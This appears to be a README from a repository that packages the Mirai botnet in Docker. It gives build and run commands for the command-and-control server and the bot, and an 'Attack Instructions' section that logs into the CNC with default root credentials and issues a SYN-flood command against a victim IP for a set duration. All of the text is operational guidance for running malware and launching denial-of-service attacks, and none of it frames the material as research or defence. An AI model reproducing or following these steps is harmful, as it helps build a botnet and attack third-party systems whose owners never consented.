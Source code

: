 # mirai-docker

## CNC
Build: `$ sudo docker build -t cnc .`  
Run: `$ sudo docker run -i -t cnc`  

## BOT
Build: `$ sudo docker build -t bot .`  
Run: `$ sudo docker run -i -t bot`  
Start Bot: `$ init.sh "IP of CNC" `  

## Attack Instructions
Connect to CNC: `$ telnet "IP of CNC"`  
username: root  
password: root  
attack: `$ syn "IP of Victim" "duration of attack"`  
